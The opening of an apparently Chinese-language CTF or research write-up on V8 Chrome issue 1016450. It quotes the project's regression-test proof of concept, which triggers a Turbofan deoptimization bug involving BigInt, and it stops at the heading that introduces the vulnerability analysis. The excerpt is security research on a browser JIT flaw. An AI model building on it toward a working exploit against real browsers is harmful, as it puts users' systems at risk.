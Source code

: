 ```yaml
---
title: Chrome issue 1016450
date: 2022-7-19 14:50:00 +0800
catagories: [V8]
tags: [V8, CTF]
math: true
mermaid: true
img_path: /assets/image/Chrome_Issue_1016450.assets/
---
```


要复现这个漏洞必须对Turbofan的Simplified Lowering阶段和Deoptimization阶段有一定的了解。

首先熟悉一下这个issue的poc，下面的所有的分析都是以这个poc为基础来进行：

```c++
// Copyright 2019 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax --opt --no-always-opt

let g = 0;

function f(x) {
  let y = BigInt.asUintN(64, 15n);
  // Introduce a side effect to force the construction of a FrameState that
  // captures the value of y.
  g = 42;
  try {
    return x + y;
  } catch(_) {
    return y;
  }
}


%PrepareFunctionForOptimization(f);
assertEquals(16n, f(1n));
assertEquals(17n, f(2n));
%OptimizeFunctionOnNextCall(f);
assertEquals(16n, f(1n));
assertOptimized(f);
//the deoptimization reason is that the add's operand 
//change from BigInt to smi.
assertEquals(15n, f(0));
assertUnoptimized(f);
```

## 漏洞原理
